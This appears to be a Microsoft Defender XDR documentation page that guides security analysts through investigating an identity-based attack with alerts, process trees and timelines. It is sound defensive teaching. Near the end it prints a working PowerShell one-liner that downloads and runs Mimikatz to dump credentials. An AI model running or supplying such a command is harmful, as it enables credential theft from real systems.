 ```yaml
---
title: Example of an identity-based attack
description: Step through an example analysis of an identity-based attack.
keywords: incidents, alerts, investigate, correlation, attack, machines, devices, users, identities, identity, mailbox, email, 365, microsoft, m365, incident response, cyber-attack
search.product: eADQiWindows 10XVcnh
ms.service: defender-xdr
ms.subservice: m365d
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords: 
  - NOCSH
ms.author: diannegali
author: diannegali
ms.localizationpriority: medium
manager: dansimp
audience: ITPro
ms.collection: 
  - m365-security
  - m365solution-firstincident
  - highpri
  - tier1
ms.topic: conceptual
search.appverid: 
  - MOE150
  - MET150
ms.date: 04/20/2021
---
```


# Example of an identity-based attack

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**Applies to:**
- Microsoft Defender XDR

Microsoft Defender for Identity can help detect malicious attempts to compromise identities in your organization. Because Defender for Identity integrates with Microsoft Defender XDR, security analysts can have visibility on threats coming in from Defender for Identity, such as suspected Netlogon privilege elevation attempts.

## Analyzing the attack in Microsoft Defender for Identity

Microsoft Defender XDR allows analysts to filter alerts by detection source on the **Alerts** tab of the incidents page. In the following example, the detection source is filtered to **Defender for Identity**. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="Filtering the detection source in Microsoft Defender for Identity" lightbox="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png":::

Selecting the **Suspected overpass-the-hash attack** alert goes to a page in Microsoft Defender for Cloud Apps that displays more detailed information. You can always find out more about an alert or attack by selecting **Learn more about this alert type** to read a [description of the attack](/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002) and remediation suggestions.
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="A suspected overpass-the-hash attack alert" lightbox="../../media/first-incident-path-identity/first-incident-identity-alert-example.png"::: 

## Investigating the same attack in Microsoft Defender for Endpoint

Alternatively, an analyst can use Defender for Endpoint to learn more about the activity on an endpoint. Select the incident from the incident queue, then select the **Alerts** tab. From here, they can identify the detection source as well. A detection source labeled as EDR stands for Endpoint Detection and Response, which is Defender for Endpoint. From here, the analyst selects an alert detected by EDR.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="An Endpoint Detection and Response in the Microsoft Defender for Endpoint portal" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png":::

The alert page displays various pertinent information such as the impacted device name, username, status of auto-investigation, and the alert details. The alert story depicts a visual representation of the process tree. The process tree is a hierarchical representation of parent and child processes related to the alert.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="An alert process tree in the Microsoft Defender for Endpoint" lightbox="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png"::: 

Each process can be expanded to view more details. Details that an analyst can see are the actual commands that were entered as part of a malicious script, outbound connection IP addresses, and other useful information.

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="The process details in the Microsoft Defender for Endpoint portal" lightbox="../../media/first-incident-path-identity/first-incident-identity-process-details.png":::
 
By selecting **See in timeline**, an analyst can drill down even further to determine the exact time of the compromise. 

Microsoft Defender for Endpoint can detect many malicious files and scripts. However, due to many legitimate uses for outbound connections, PowerShell, and command-line activity, some activity would be considered benign until it creates a malicious file or activity. Therefore, using the timeline helps analysts to put the alert into context with the surrounding activity to determine the original source or time of the attack that otherwise is obscured by common file system and user activity. 

To use the timeline, an analyst would start at the time of the alert detection (in red) and scroll down backwards in time to determine when the original activity that led to the malicious activity actually started. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="Analyst's start time for the alert detection" lightbox="../../media/first-incident-path-identity/first-incident-identity-start-time.png"::: 

It is important to understand and distinguish common activity such as Windows Update connections, Windows Trusted Software activation traffic, other common connections to Microsoft sites, third-party Internet activity, Microsoft Endpoint Configuration Manager activity, and other benign activity from suspicious activity. One way to distinguish is by using timeline filters. There are many filters that can highlight specific activity while filtering out anything that the analyst does not want to view. 

In the image below, the analyst filtered to view only network and process events. This filter criteria allows the analyst to see the network connections and processes surrounding the event where Notepad established a connection with an IP address, which we also saw in the process tree. 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="How Notepad was used to make a malicious outbound connection" lightbox="../../media/first-incident-path-identity/first-incident-identity-notepad.png"::: 

In this particular event, Notepad was used to make a malicious outbound connection. However, often attackers will use iexplorer.exe to establish connections to download a malicious payload because ordinarily iexplorer.exe processes are considered regular web browser activity.

Another item to look for in the timeline would be PowerShell uses for outbound connections. The analyst would look for successful PowerShell connections with commands such as `IEX (New-Object Net.Webclient)` followed by an outbound connection to a website hosting a malicious file. 

In the following example, PowerShell was used to download and execute Mimikatz from a website:

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
An analyst can quickly search for keywords by typing in the keyword in the search bar to display only events created with PowerShell. 

## Next step

See the [phishing](first-incident-path-phishing.md) investigation path.

## See also

- [Incidents overview](incidents-overview.md)
- [Manage incidents](manage-incidents.md)
- [Investigate incidents](investigate-incidents.md)
[!INCLUDE [Microsoft 365 Defender rebranding](../../includes/defender-m3d-techcommunity.md)]
